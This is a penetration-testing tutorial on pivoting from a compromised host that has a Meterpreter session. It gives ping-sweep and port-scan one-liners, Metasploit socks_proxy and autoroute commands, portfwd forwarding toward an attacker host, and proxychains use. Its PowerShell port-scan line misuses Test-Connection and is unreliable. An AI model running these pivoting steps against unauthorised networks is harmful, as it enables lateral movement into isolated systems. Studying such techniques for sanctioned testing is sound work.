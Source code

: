 
- If we manage to obtain a meterpreter session on the pivot host, we can utilise the various modules at our disposal for tunneling and portforwarding without needing SSH
- Metasploit provides modules to start a socks proxy, add routes to the target environment and also remote and local port forwarding



#### How to do it

Suppose we have managed to gain a meterpreter session on a remote host. Upon enumerating the environment, we come across a different network environment  `172.16.5.129` of which the pivot host is a part.  We first start with a ping sweep to uncover live hosts in this isolated network



##### 1. Ping Sweep from the pivot box on the isolated network

```bash
#Ping Sweep in Bash
for i in $(seq 1 254); do (ping 172.16.5.$i -c 1 | grep -i "Bytes From" &); done


#Ping Sweep in Powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}


#Port Scan using Powershell

1..65535 | % {"172.16.5.19:$($_): $(Test-Connection -count 1 -comp 172.16.5.19:$($_) -quiet)"}

```



##### 2. Start a socks proxy using metasploit

```bash
run auxiliary/server/socks_proxy
```




##### 3. Add routes to the isolated network via the pivot host

```bash
run post/multi/manage/autoroute
```




Now, we have done everything we need. We can further setup local or remote port forwarding as per requirement by using the `portfwd` command within an active session



##### Local port Forwarding

```bash
portfwd add -l local_port -p remote_port -r remote_host
```


##### Reverse Port Forwarding

```bash
portfwd add -R -l local_port -p remote_port -L attacker_host
```



Now, we can use proxychains to interact with the isolated network from the attacker machine via the SOCKS tunneling we have setup through the pivot box. 


